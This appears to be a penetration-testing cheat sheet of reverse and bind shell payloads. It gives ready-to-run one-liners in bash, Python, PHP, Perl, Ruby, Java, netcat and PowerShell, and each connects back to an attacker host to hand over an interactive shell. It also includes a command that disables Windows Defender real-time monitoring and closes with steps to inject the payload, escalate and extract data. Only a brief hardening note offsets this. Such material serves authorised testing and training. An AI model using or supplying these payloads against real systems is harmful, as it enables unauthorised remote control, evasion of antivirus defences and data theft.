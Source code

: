 ```yaml
---
title: Reverse Shells
category: Access
tags: [shell, netcat, exploit]
tools: ['nc', 'netcat', 'ncat']
---
```


# Reverse Shells

## Listener Setup & Shell Stabilisation

### Start Listener
```bash
nc -lvnp <PORT>
```

### Bash Shell Stabilization (after connection)
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then:
Ctrl-Z
stty raw -echo;fg
export TERM=xterm

# If needed
stty rows $(tput lines) columns $(tput cols)
clear
```

---

## Bind Shell

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

```bash
# Target Server
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect from box
ncat 10.0.0.1 4242 -e /bin/bash

```

## Bash Reverse Shell

```bash
# Target
/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

---

## Python Reverse Shell
```bash
python -c 'import socket,os,subprocess;
s=socket.socket();s.connect(("<ATTACKER_IP>",<PORT>));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
subprocess.call(["/bin/sh","-i"]);'
```

---

## PHP Reverse Shell
```php
php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);
exec("/bin/sh -i <&3 >&3 2>&3");'
    
 <?php $sock = fsockopen("KALI_IP", 4444); proc_open('/bin/bash -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes>
```

---

## Perl Reverse Shell
```perl
perl -e 'use Socket;
$i="<ATTACKER_IP>";$p=<PORT>;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
  exec("/bin/sh -i");
};'
```

---

## Ruby Reverse Shell
```ruby
ruby -rsocket -e 'exit if fork;
c=TCPSocket.new("<ATTACKER_IP>","<PORT>");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

## Java Reverse Shell
```java
r = Runtime.getRuntime();
p = r.exec(new String[]{
  "/bin/bash","-c",
  "exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>;" +
  "cat <&5 | while read l; do $l 2>&5 >&5; done"
});
p.waitFor();
```

---

## Netcat Reverse Shell
```bash
rm /tmp/f; mkfifo /tmp/f;
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> <PORT> >/tmp/f
```

---

## PowerShell Reverse Shell (Windows)
```powershell
$sm=(New-Object Net.Sockets.TCPClient("<ATTACKER_IP>",<PORT>)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
  $st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
  $sm.Write($st,0,$st.Length)
}
```

## Simple Reverse Shell in Windows

Bind to common port 443 to avoid firewall restrictions

```bash
# Server setup
sudo nc -lvnp 443
```

```powershell
# Payload on target, RCE cmd.exe
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.178',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Dissable A/V if needed as admin
Set-MpPreference -DisableRealtimeMonitoring $true

```

---

## Hardening / Detection Notes
- Outbound firewall filtering helps prevent shell callbacks.
- Remove common interpreters (`bash`, `python`, `php`) when not needed.
- Use detection rules for outbound socket behavior and reverse shell signatures.
- Proper input sanitization and secure coding are the best defenses.

---

**Usage**:
1. Set up listener.
2. Inject the payload.
3. Stabilize shell (if Linux).
4. Escalate and extract.
